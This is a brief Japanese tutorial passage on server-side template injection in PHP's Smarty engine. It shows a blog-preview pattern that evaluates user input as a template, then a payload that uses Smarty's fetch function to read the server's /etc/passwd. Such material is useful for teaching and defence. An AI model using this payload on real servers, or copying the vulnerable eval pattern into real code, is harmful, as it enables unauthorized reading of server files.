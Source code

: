 ## 攻撃例

SSTI は erb や jinja2 などあらゆるテンプレートエンジンで生じます。  
ここでは PHP のテンプレートエンジンである Smarty を例に紹介します。  

SSTI はユーザー入力値を元に動的にテンプレートエンジンを介してHTMLを生成することによって生じます。

ここではユーザーに `smartyの機能を提供する` ブログのプレビュー機能を例に挙げます。

```php
$html = $_POST['html'];
...
$smarty->assign('html', $html);
```

```php
{eval var=$html}
```

ユーザー入力値を HTML として表示するために `eval` を利用しています。

ここで、Smarty が提供している関数 `fetch` を利用してみましょう。

```php
{fetch file="file:///etc/passwd"}
```

するとサーバーサイドの `/etc/passwd` を抜き出すことができます。  
